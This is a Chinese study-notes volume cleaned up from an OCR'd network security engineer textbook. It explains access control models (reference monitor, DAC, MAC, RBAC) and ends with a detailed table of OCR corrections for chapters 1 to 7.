4. ④ 若认证成功则服务器返回 `HTTP/1.1 200 OK` **并发送被请求的资源**；否则返回 `HTTP/1.1 403 Forbidden`。

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as Web 服务器
    C->>S: ① GET / HTTP/1.1
    S->>C: ② HTTP/1.1 401 Unauthorized（请求身份验证）
    C->>S: ③ 携带凭证重新请求
    S->>S: ④ 验证凭证
    S->>C: 验证通过 → HTTP/1.1 200 OK + 资源
    S->>C: 验证失败 → HTTP/1.1 403 Forbidden
```

> [!IMPORTANT]
> HTTP 认证状态码：**401 Unauthorized**（请求身份验证）、**200 OK**（成功返回资源）、**403 Forbidden**（拒绝访问）。

---

#### 第 7 章 访问控制技术原理与应用

本章目录：访问控制概述 / 模型 → 访问控制策略设计与实现 → 访问控制产品与应用 → AAA。

##### 7.1 访问控制概述

###### 🧭 访问控制定义

**访问控制**：指对**资源对象的访问者授权、控制**的方法及运行机制。

| 概念 | 说明 |
| --- | --- |
| **主体（访问者）** | 访问者又称为**主体**，可以是**用户、进程、应用程序**等 |
| **客体（资源对象）** | 资源对象又称为**客体**，即**被访问的对象**，可以是**文件、应用服务、数据**等 |
| **授权** | 访问者可以对资源对象进行**访问的方式**，如文件的**读、写、删除、追加**或电子邮件服务的**接收、发送**等 |
| **控制** | 对访问者**是否允许用户访问资源对象做出决策**，如**拒绝访问、授权许可、禁止操作**等 |

###### 🧭 访问控制目标

1. ① **防止非法用户进入系统**；
2. ② **阻止合法用户对系统资源的非法使用**，即**禁止合法用户的越权访问**。

###### 🧭 实现访问控制目标

要实现访问控制的目标，首先要对**网络用户进行有效的身份认证**，然后根据不同的用户授予不同的**访问权限**，进而**保护系统资源**。同时还可以进行系统的**安全审计和监控**，检测用户对系统的**攻击企图**。

通过访问控制与**认证机制、审计机制**的协同，实现访问控制。

```mermaid
graph TD
    U["用户"] --> A["认证"]
    A --> AC["访问控制"]
    SA["安全管理员"] -->|"授权"| AC
    AC --> R["资源"]
    AC --> AU["审计"]
```

> [!TIP]
> 三大机制协同：**认证（你是谁）→ 访问控制（你能干什么）→ 审计（你干了什么）**。

##### 7.2 访问控制参考模型

###### 🧭 组成要素

访问控制参考模型组成要素（图 7-3）：

| 要素 | 说明 |
| --- | --- |
| **主体（Subject）** | **操作的实施者** |
| **客体（Object）** | **被操作的对象** |
| **参考监视器（Reference Monitor）** | **访问控制的决策单元和执行单元的集合体** |
| **访问控制数据库** | 记录**访问权限及其访问方式**，提供**访问控制决策判断的依据**，也称为**访问控制策略库** |
| **审计库** | 存储**主体访问客体的操作信息**，如**访问成功、失败**等 |

```mermaid
graph LR
    S["主体 Subject"] --> RM["参考监视器 Reference Monitor"]
    RM --> O["客体 Object"]
    ADB["访问控制数据库（策略库）"] --> RM
    RM --> AL["审计库"]
```

##### 7.3 常见访问控制模型

###### 🧭 模型与应用对应

| 模型 | 应用 |
| --- | --- |
| （OCR 缺失，疑为「自主访问控制 DAC / 强制访问控制 MAC」） | 用于**操作系统、数据库系统的资源访问** |

> [!NOTE]
> 原页表格 OCR 严重丢失，仅可辨识「用于操作系统 数据库系统的资源访问」。

##### 7.4 DAC 自主访问控制

###### 🧭 概念与实现方式

**自主访问控制（Discretionary Access Control，DAC）**指**客体的所有者**按照**自己的安全策略**授予系统中的**其他用户**对其的**访问权**。

实现方式有**两大类**：

| 类别 | 具体方式 |
| --- | --- |
| **(1) 基于行的自主访问控制** | **能力表（Capability List）、前缀表（Profile）、口令（Password）** |
| **(2) 基于列的自主访问控制** | **保护位（Protection Bits）、访问控制列表 ACL** |

**访问控制矩阵示例（DAC）：**

| 姓名 | Web（网页） | DB（数据库） | Vedio（视频） |
| --- | --- | --- | --- |
| （用户 1） | × | √ | × |
| （用户 2） | （OCR 缺失） | （OCR 缺失） | （OCR 缺失） |

> [!NOTE]
> 原表为访问控制矩阵示意，仅可辨识表头「姓名 / Web（网页）/ DB（数据库）/ Vedio（视频）」及若干「× / √」标记。

###### 🧭 DAC 的优缺点

**优点**：自主访问控制是**最常用**的一种对网络资源进行访问约束的机制，其好处是**用户自己根据其安全需求，自行设置访问控制权限**，访问机制**简单、灵活**。

**缺点**：但这种机制的实施**依赖于用户的安全意识和技能**，**不能满足高安全等级的安全要求**。例如，网络用户由于**操作不当**，将**敏感的文件用电子邮件发送到外部网**，则造成**泄密事件**。

> [!WARNING]
> DAC 的根本弱点：**权限由资源所有者自行决定**，一旦所有者误操作（或恶意），安全策略即失效，无法适应**高安全等级**需求。

##### 7.5 MAC 强制访问控制

###### 🧭 概念

**强制访问控制（MAC）**是指根据**主体和客体的安全属性**，以**强制方式**控制主体对客体的访问。

**判定规则**：安全操作系统中的**每个进程、每个文件等客体**都被赋予了相应的**安全级别和范畴**，当一个**进程访问一个文件**时，系统调用强制访问控制机制，**当且仅当**：

1. **进程的安全级别不小于客体的安全级别**，并且
2. **进程的范畴包含文件的范畴**

时，进程才能访问客体，否则就**拒绝**。

###### 🧭 MAC 与 DAC 的比较

| 比较项 | 说明 |
| --- | --- |
| 严格程度 | 与自主访问控制相比较，**强制访问控制更加严格** |
| DAC 的局限 | 用户使用自主访问控制虽然能够**防止其他用户非法入侵自己的网络资源**，但对于**用户的意外事件或误操作则无效**。因此，**自主访问控制不能适应高安全等级需求** |
| MAC 的适用领域 | 在**政府部门、军事和金融**等领域，常利用**强制访问控制机制**，将系统中的资源划分**安全等级和不同类别**，然后进行安全管理 |

```mermaid
graph TD
    A["MAC 强制访问控制"] --> B["主体安全级别 >= 客体安全级别"]
    A --> C["主体范畴 包含 客体范畴"]
    B --> D{"两者同时满足?"}
    C --> D
    D -- 是 --> E["允许访问"]
    D -- 否 --> F["拒绝访问"]
```

> [!IMPORTANT]
> DAC vs MAC：
> - **DAC**：**客体所有者**自行授权，灵活但不满足高安全等级
> - **MAC**：**系统强制**按安全级别/范畴判定，严格，用于**政府、军事、金融**

##### 7.6 RBAC 基于角色的访问控制

###### 🧭 概念与基本要素

**基于角色的访问控制（RBAC）**是目前国际上流行的**先进的安全访问控制方法**。它通过**分配和取消角色**来完成**用户权限的授予和取消**，并且提供**角色分配**（和角色继承等机制）。

**RBAC 包括四个基本要素：**

| 要素 | 说明 |
| --- | --- |
| **U（User，用户）** | 系统的使用者 |
| **R（Role，角色）** | 权限的集合 |
| **S（Session，会话）** | 用户与激活角色之间的映射 |
| **P（Permission，权限）** | 对客体的操作许可 |

**核心思想**：**访问权限与角色相关联，角色再与用户关联**，实现了**用户与访问权限的逻辑分离**。

**RBAC 的优点：**

- 便于**授权管理**
- 便于**根据工作需要分级**
- 便于**赋予最小特权**
- 便于**任务分担**
- 便于**文件分级管理**

```mermaid
graph LR
    U["用户 U"] -->|"用户-角色分配"| R["角色 R"]
    R -->|"角色-权限分配"| P["权限 P"]
    S["会话 S"] --> R
    U --> S
```

> [!IMPORTANT]
> RBAC 核心：**用户 → 角色 → 权限**（两级关联），实现**用户与权限的逻辑分离**，便于**最小特权**与**授权管理**。

###### 🧭 RBAC 实例（Windows 本地安全策略界面）

原书以 Windows「本地安全设置」界面为例说明**用户角色 → 角色权限 → 权限分配**：

| 界面项 | 内容示例 |
| --- | --- |
| **角色层次 / 帐户策略 / 本地策略 / 审核策略 / 安全选项 / 用户权利指派** | 如「**备份文件和目录**」→ `Backup Operators, Administrators`；「**从插接工作站中取出计算机**」→ `Users, Power Users, Administrators`；「**从网络访问此计算机**」→ `Administrators`；「**管理审计和安全日志**」→ `Administrators`；「**配置文件系统性能**」→ `Administrators` 等 |
| **用户角色 / 角色权限 / 权限分配** | 体现「**给用户分配角色 → 给角色分配权限**」的两级授权模型 |

> [!NOTE]
> 该页为 Windows 本地安全策略截图 OCR，表格内容多为界面文字（如 `Power Users, Administrators`、`Users, Power Users, Administrators`），已按可辨识内容保留。

---

#### ⚠️ 疑点与 OCR 修正清单

以下为整理过程中按语义修正的 OCR 错误 / 缺失，列出「原文写法 → 修正后写法」，便于溯源核对。

##### 第 1 章

| 原文（OCR） | 修正后 | 依据 |
| --- | --- | --- |
| 数字化、网络化、**轰能化** | 数字化、网络化、**智能化** | 信息社会三大特征 |
| **搞抵赖性** | **抗抵赖性** | 同页下文明写「抗抵赖性」 |
| 技术**得用**风险 | 技术**滥用**风险 | 语义 |
| 建设与管理**帮展**不平衡 | 建设与管理**发展**不平衡 | 语义 |
| 网络信息技术复杂性和**运曹**安全风险 | **运维**安全风险 | 语义 |
| 「**yt** 信息系统责任主体…」 | **可控性** | 五大基本属性之五 |
| **真均性** | **真实性** | 扩展属性 |
| **友观**的和微观 / **安观目标** | **宏观**的和微观 / **宏观目标** | 语义 |
| 网络**胸弱性** | 网络**脆弱性** | 管理要素 |
| 给操作系统打**补本** | 打**补丁** | 语义 |
| 网络信息安全管理**济程** / 工作**沅程** / **防沱**体系 / **沙实** | **流程** / **工作流程** / **防护**体系 / **落实** | 语义 |
| **挝术**产品 | **技术**产品 | 语义 |
| 第十二届全国人民代表大会**单务**委员会 | **常务**委员会 | 立法机关名称 |
| **目**2017 年 6 月 1 日起施行 | **自** 2017 年 6 月 1 日起施行 | 语义 |
| 防**泡**网络安全风险 | 防**范** | 语义 |
| 可能**市来**的国家安全风险 | 可能**带来** | 语义 |
| 使用后**溃在**的风险 | **潜在** | 语义 |
| 重要数据被**穷了到**、泄露、**师损** | 被**窃取**、泄露、**损毁** | 语义 |
| **运车**维护 / **运豆**维护 / **运齐**主体 | **运行**维护 / **运行**维护 / **运营**主体 | 语义 |
| **上**国家计算机网络应急技术处理协调中心 | **国家**计算机网络应急技术处理协调中心（无「上」） | 机构名 |
| **墨盒测试**（Black Box Testing） | **黑盒测试** | 英文对照 |
| CCRC 是负责实施「______」的专门机构（空白） | 负责实施**网络安全审查和认证** | 第 17 页同句完整出现 |
| 《境外组织和个人在华使用密码产品管理办法》发布机构「国家密码管理**忆**」 | **国家密码管理局** | 机构名 |

##### 第 2 章

| 原文（OCR） | 修正后 | 依据 |
| --- | --- | --- |
| 网络攻击原理表（大量乱码，如 `[JiR`、`UF ay`、`DARA`、`HORA`） | 保留可辨识词，缺失处标注「OCR 缺失」 | 无法还原，已标注 |
| **和**凭据访问 | **凭据访问**（ATT&CK 战术） | ATT&CK 12 战术 |
| 步骤编号「**(8) 实施攻击**」 | **(6) 实施攻击** | 8 步曲顺序 |
| 开辟**后站** | 开辟**后门** | 语义 |
| 安装**虽探句** | 安装**嗅探器** | 语义 |
| **蔡换**系统本身的共享库文件 | **替换** | 语义 |
| 修改或**守听**（敏感数据） | **窃听** | 语义 |
| 删除数据**账喜** | 删除数据**账套/记录** | 语义（存疑） |
| 14 种方法中「**漏斗扫描**」 | **漏洞扫描** | 方法 12 正文 |
| 「**端口扫摘**」「**扫措**」「**扫拍**」 | **端口扫描** / **扫描** | 语义 |
| 隐蔽扫描条目「**MASE**」 | **SYN\|ACK 扫描** | 正文描述 |
| 「**im OFS**」（第 31 页标题） | 端口扫描（续）：FIN / ACK / NULL / XMAS 扫描 | 正文内容 |
| 缓冲区**首出**攻击 | 缓冲区**溢出**攻击 | 语义 |
| **才盖**其他正弟的程序或数据 | **覆盖**其他正常的程序或数据 | 语义 |
| **便尸网络** | **僵尸网络** | 恶意代码类型 |
| 「**ppm** \|aaaasaaasauopaz 消耗完目标主机端的网络带宽」 | **UDP Flood**（OCR 标题丢失） | 上下文 DoS 类型 |
| 「**or** \| 攻击者伪装目标主机向局域网的广播地址发送大量欺骗性的 ICMP 请求」 | **Smurf 攻击** | 语义（ICMP 广播 + 放大） |
| 「**+H KECPUAIIY 7. YIEDOS**」 | **CPU/内存资源耗尽型 DoS** | 正文描述 |
| 「**ing of Death** 攻击」 | **Ping of Death** 攻击 | 知名攻击名 |
| 「**Teardrop 泪渍攻击**」「**朋溃**」「**次病**」 | **泪滴攻击** / **崩溃** / **瘫痪** | 语义 |
| 「**Winnukemz 击**」「**闪痪**」 | **WinNuke 攻击** / **瘫痪** | 知名攻击名 |
| 网络钓鱼「**可信亡**」「**评细信息**」「**诈驴**」 | **可信方** / **详细信息** / **诈骗** | 语义 |
| 「**3QL** 命令」「请求**理找字人符串**」 | **SQL** 命令 / **请求查询字符串** | 语义 |
| 「**ZSEo0T**：是指利用网络通信技术缺陷」 | **网络窃听** | 方法 7 |
| 「**TUTE**：网络攻击者通过一系洵的社交活动」 | **社交工程** | 方法 9 |
| 「**允取**他的密码口令」「**上帮送**给攻击者」 | **骗取** / **上传给** | 语义 |
| 「**SA**：是指攻击者在切始授权之后建立一个连接」 | **会话劫持** | 方法 11 |
| 「**目动**检测」「**友现**」「**单见**」 | **自动** / **发现** / **常见** | 语义 |
| 「**奶踩**到网络攻击者的真实身份」「**DDO39**」「**弟音采用**」「**读便**」 | **追踪** / **DDoS** / **经常采用** / **读懂** | 语义 |
| John the Ripper 描述「**MTSE RS OSIM**（针对用户的弱**D令**内…」 | **字典攻击（针对用户的弱口令）** | 上下文 |
| 「**OphtCrack: EggwindoueRODIA 4**」 | **OphCrack**：破解 **Windows** 密码（彩虹表） | 工具名 |
| 「**网种聊控**，轩过可忆才因网人的二时全」 | **网络嗅探**：捕获并分析网络数据包 | 语义 |
| 「**TCPVIP** 协议」 | **TCP/IP** 协议 | 语义 |
| 「**ATP** 攻击」（第 50 页标题） | **APT** 攻击 | 正文 Advanced Persistent Threat |
| 「**ATPRi etait**」 | **APT 防御** | 语义 |
| 「**海连化**」 | **海莲花**（APT 组织） | 已知 APT 组织名 |
| 「**Denis 家族木马**」 | 保留 Denis（海莲花所用木马家族名） | 未见明显错字，保留 |

##### 第 3 章

| 原文（OCR） | 修正后 | 依据 |
| --- | --- | --- |
| 《中华人民共和国电子**釜名法**》 | **电子签名法** | 法律名 |
| 「**审文**\|用密码技术处理过明文的结果」 | **密文** | 密码学概念 |
| 「**密铀**」（全文多处） | **密钥** | 语义 |
| 「**公钼**」「**公角**」「**公铀**」 | **公钥** | 语义 |
| 「**私铀**」「私**铜**」 | **私钥** | 语义 |
| 密码分析表第 (4)(5) 项标题缺失（「**excep**」「**竟芋训wx二**」） | (4) 疑为**选择密文攻击**（判断密文是否合法）；(5) 疑为**选择密文攻击 / 选择文本攻击**（选择密文并获得明文，攻击数字签名） | 描述内容，标题无法还原，已在正文标注 |
| 「**DFS**」「**3DFS**」 | **DES** / **3DES** | 算法名 |
| DES「有效密钥长度是 **26 位**」 | **56 位** | DES 标准参数 |
| 3DES「密钥长度 **112 位**」（两密钥） | 保留 **112 位** | 与 2016 真题解析「2×56=112」一致 |
| 2016 年第 65 题解析「**2*26=112 位**」 | **2×56 = 112 位** | 计算校验 |
| 「**Rows reams**，用于 WIFI」 | **RC4**，用于 WIFI | 算法名 |
| 「**SMAl**」（第 65 页标题） | **国产密码算法** | 正文 |
| SM2「（**枯加曲线问题**）」 | **椭圆曲线问题** | 语义 |
| SM3「**基痪算法**，分组 **912** 位，输出 **226** 位」 | **杂凑算法**，分组 **512** 位，输出 **256** 位 | SM3 标准参数 |
| 国产算法表 SM1/SM2/SM3/SM4/SM9 名称列 OCR 部分缺失 | 按特征描述补全为 **SM1、SM2、SM3、SM4、SM9** | 算法特征（128 位对称=SM1/SM4；椭圆曲线=SM2；512/256 杂凑=SM3；标识密码=SM9） |
| RSA 计算案例「当 n=2 时，**d-7**」 | **d = 5**（13×5=65=32×2+1） | 同页结论行写 d=5，且 32⁵ mod 51 = 2 验证通过 |
| 「明文 M=**Cd** mod n=**325** mod 51」 | **M = C^d mod n = 32^5 mod 51** | 数学校验 |
| 「**不要许多用己共用一个异数 n**」 | **不要许多用户共用一个模数 n** | 语义 |
| 「**硕望**选用小的 **gd**」 | **希望**选用小的 **d** | 语义 |
| 「**儿须**认真选择」 | **必须** | 语义 |
| Hash 特性「**无本撞性**、**要朋效应**」 | **无碰撞性**、**雪崩效应** | 术语 |
| SM3「消息分组长度为 **912** 比特，输出 **226** 位摘要」 | **512** 比特，输出 **256** 位 | SM3 标准 |
| 「**Rinbow Table** Attack」 | **Rainbow Table**（彩虹表） | 术语 |
| 「HASH **恬用**」「需要**汉方**预先**类道**这个 R」 | **应用** / **双方** / **知道** | 语义 |
| 「HASH.**MACAQDHMACXYEL**」（第 90 页标题） | **Hash、MAC 和 HMAC 的区别** | 正文内容 |
| 数字签名特点第 4 条「**OFAN**」 | **不可伪造**（私钥不公开，所以不能篡改签名） | 语义 |
| 「**eid**/PKI」中「**PK**与数字证书」 | **PKI** 与数字证书 | 术语 |
| 「**SSLVTLS**」 | **SSL/TLS** | 术语 |
| 「**Rabin**、**ELGamal**、**DSS**」 | 保留（Rabin / ElGamal / DSS） | 算法名 |
| SSH「基于 **TCP 22 端口**」 | 保留 **22** | 正确 |
| 应用与数据安全「使用 **?3H 及 939L** 等密码技术」 | **SSH 及 SSL** | 语义 |
| 「**PPPOE 服务端**」 | **PPPoE 服务端** | 协议名 |

##### 第 4 章

| 原文（OCR） | 修正后 | 依据 |
| --- | --- | --- |
| 「**com** \| 网络安全体系从全局…」（整体性标题缺失） | **整体性** | 特征列表顺序 |
| 「**,性**」（BLP 第二特性） | **\*（星）特性** | BLP 模型标准 |
| 「BLP 模型只能保障**元称性**」 | **不能保障完整性** | BLP 只保机密性 |
| 「**Miliary** Security Policy」 | **Military** Security Policy | 英文 |
| 「用户 A 缺少**财务处**学畸」 | 缺少「**财务处**」**范畴** | 语义 |
| Biba「**ste Lanett rai eta, 不能修改客体**」 | **\* 特性**：主体完整性级别小于客体完整性级别，不能修改客体（不能向上写） | Biba 模型标准 |
| 信息流模型「**SSR MAA EAR**」 | 「**不产生高安全级信息流向低安全级**」 | 语义 |
| 「**@-文持结合、交换的二进制运算竺; 一法天系**」 | **⊗** — 支持结合、交换的二进制运算符；**→** — 流关系 | 数学符号 |
| CMM「**A - 量化控制**」 | **4 级 - 量化控制** | 五级序列 |
| 「**BETTI bE ee**」（第 119 页标题） | **成熟度模型（种类）** | 正文 |
| 等保第二级名称缺失「**BOR**〈系统审计保护级）」 | **第二级（系统审计保护级）** | 等级序列 |
| 「信息系统要到**县坏**后…会对社会秩序和公共**和吉**造成严重损**志**」 | **受到破坏**后…**公共利益**造成严重**损害** | 语义 |
| 「**目主**安全保护级」 | **用户自主**安全保护级 | 等级名称 |
| 等保 2.0「人在『安全通信**了**网络』『安全区域边**春**』」 | 「**安全通信网络**」「**安全区域边界**」 | 等保 2.0 标准术语 |
| 「增加了『**可信和验证**』控制点」 | 「**可信验证**」控制点 | 等保 2.0 标准术语 |
| 智慧城市「**BORA EA] [REMAKE**」等 | 保留可辨识内容，乱码剔除 | 图示 OCR |
| 智能交通网络安全体系（图 4-18）大量乱码 | 保留框架性描述并标注「OCR 严重失真」 | 图示 OCR |

##### 第 5 章

| 原文（OCR） | 修改后 | 依据 |
| --- | --- | --- |
| 「**防汉沽**措施」 | **防渗漏**措施 | 语义 |
| 「防止下雨时电线沟进水温道机房」 | 防止下雨时**电缆沟进水漫进机房** | 语义 |
| 「**BI.**（防盗第 2 条）」 | **门禁 / 出入口控制**（原文疑为「门禁」） | 语义（存疑） |
| 「在电缆上图上**环已基类防电章**」 | 在电缆上涂上**环己基类防鼠（驱避）剂** | 语义 |
| 「在电费外施加**毒短**…利用**搜走工具捕刀**」 | 在**电缆外施加毒饵**…利用**捕杀工具捕杀** | 语义 |
| 「机房地板从地板表面到接地系统的**阻值**」 | 保留 | 正确 |
| 「**5C 级**」「**(5 级**」「**(5C 三级**」 | **C 级** | 等级序列 |
| 「**af 环通计数**」「**mi 信 2 所**」（图 4-? 等保标准变化） | 剔除（纯乱码） | 图示 OCR |
| 表 5-1 安全级别要求（防火/火灾自动报警/灭火器/防水）符号错乱 | 保留可辨识部分，缺失标注 | 表格 OCR |
| IDC「R1…可用性不应小于 **99.596**」「R2…**99.996**」「R3…**99.9996**」 | **99.5%** / **99.99%** / **99.999%** | 可用性标准分级 |
| 可用性表「**个 9**」「**213**」「**4个3**」「**wo 876**」等错位 | 按 1~5 个 9 标准表校准（90%/99%/99.9%/99.99%/99.999%） | 标准可用性表 |
| 「**ICVIP** 盗版」 | **IC/IP** 盗版 | 语义 |
| 「** \| C** 中被植入的还意电路」 | **IC** 中被植入的**恶意**电路 | 语义 |
| 「**内人存**」「**内全**」 | **内存** | 语义 |
| 「**裕气湿度**」「**有致**」「**夏坏**」 | **空气湿度** / **导致** / **破坏** | 语义 |
| 「**晨网**病毒」 | **震网**病毒 | 知名恶意代码 |
| 「确保**刻入**的软件是安全可信和的」 | **嵌入** | 语义 |
| 「**反向分析法**」（第一处写作「反辐分析法」） | 统一为**反向分析法**（即逆向工程分析法） | 语义 |
| 设备安全威胁编号从 (4) 开始 | 前 3 项 OCR 丢失，已标注 | 表格 OCR |
| 「机房内无线电干扰场强…时**不大于**（数值缺失）」 | 数值 OCR 丢失，已标注（GB/T 2887-2011 常见值为 **126 dBμV/m**） | 存疑，已标注 |

##### 第 6 章

| 原文（OCR） | 修正后 | 依据 |
| --- | --- | --- |
| 「**所拥有的的实物赁证**」 | **实物凭证** | 语义 |
| 「**S/VKey OS**」 | **S/Key**（一次性口令系统） | OTP 实例 |
| 「**KAsg**」「**KAg**」「**Kap**」等 | 统一为 **KAB**（A 与 B 共享的秘密/会话密钥） | 语义 |
| 「**@ A= 生并向 B 友送消息**」 | 「① **A 生成并向 B 发送消息**」 | 语义 |
| 「**1DA**」「**1Ds**」「**1De**」 | **IDA** / **IDB** | 标识符号 |
| 「**O9SPF** 认证」 | **OSPF** 认证 | 协议名 |
| 「**人证核验**智能终端」 | 保留 | 正确 |
| 「**SsH**」「**33H**」「**3sH**」 | **SSH** | 协议名 |
| 「**R#4h3c**」（SSH 英文） | **Secure Shell** | 协议名 |
| 「**Negot iate**」 | **Negotiate** | 协议名 |
| 「认证扩术」「**撤术**」「**普志**」「**第见**」 | **技术** / **基础性技术** / **普遍** / **常见** | 语义 |
| 「**大听**、重放、中间人攻击」 | **窃听**、重放、中间人攻击 | 语义 |
| 「**快速任线认证（FIDO）**」 | **快速在线认证（FIDO）** | 语义 |
| 「公和钥将尽大到在线服务」 | **公钥将发送到在线服务** | 语义 |
| 「**时间截公共服务平台**」 | **时间戳公共服务平台** | 术语 |
| 「**拦截**凭证 / **掩盖**凭证」 | **携带 / 提交凭证**（HTTP BAA 流程） | 语义 |
| 「**人腔识别机房门蓉**」 | **人脸识别机房门禁** | 语义 |
| 「**elD**」/「**eID**」 | **eID**（公民网络电子身份标识） | 术语 |
| 「**由信**」「**友尖**」 | **接收** / **发送** | 语义 |
| 「**人源对象**」 | **资源对象** | 语义 |

##### 第 7 章

| 原文（OCR） | 修正后 | 依据 |
| --- | --- | --- |
| 「**共止**合法用户的越权访问」 | **禁止** | 语义 |
| 「单见访问控制**异型**」 | **常见访问控制类型** | 语义 |
| 「**REI, AIR. OS**」（基于行的 DAC） | **能力表、前缀表、口令**（Capability List / Profile / Password） | DAC 实现方式（存疑，已标注） |
| 「**Vedio**」 | **Video**（视频） | 英文 |
| 「**SA、 <s +e TT]**」（第 193 页页眉） | 剔除（乱码） | 无意义 |
| 「**ses =< … 二 ~~**」（RBAC 页大量乱码） | 剔除，保留正文语义 | 图示 OCR |
| 「**SRE**」「**TG**」「**四人1**」 | 剔除（乱码） | 无意义 |
| Windows 本地策略界面文字（如 `SlRaxeexcunewaT`） | 剔除（乱码），保留 `Administrators / Power Users / Users` 等可辨识值 | 截图 OCR |

##### 全局处理说明

1. **已剔除**：页眉页脚水印广告文字（「SUMMER 课堂」「SUMMERiR」「SUMMER tk」「SUMMER i =」等）、页码数字、纯符号乱码行。
2. **已剔除**：目录页（「目录 Content」）中无法还原的装饰性字符，仅保留可辨识的章节名（已在各章开头列出章节结构）。
3. **保留原样**：所有法律法规名称、机构名称、时间日期、端口号、参数位数、真题题干与答案，除明确错字外未作改动。
4. **存疑未改**：极少数无法判定者（如密码分析第 (4)(5) 项标题、基于行 DAC 的三类方式、GB/T 2887-2011 干扰场强数值）已在正文用「OCR 缺失 / 存疑」标注，**未强行臆造**。

---

> 📌 本文档覆盖《网络信息安全工程师教程》**第 1 ~ 193 页**（第 1 章 ~ 第 7 章 RBAC 节，第 7 章未完）。后续章节见其他分册。

---

<div align="center">

[⬅ 上一卷](04_%E8%AF%BE%E4%BB%B6%E7%B2%BE%E8%AE%B2.md)　·　[📚 总目录](README.md)　·　[下一卷 ➡](06_%E5%AE%98%E6%96%B9%E6%95%99%E6%9D%90.md)

</div>
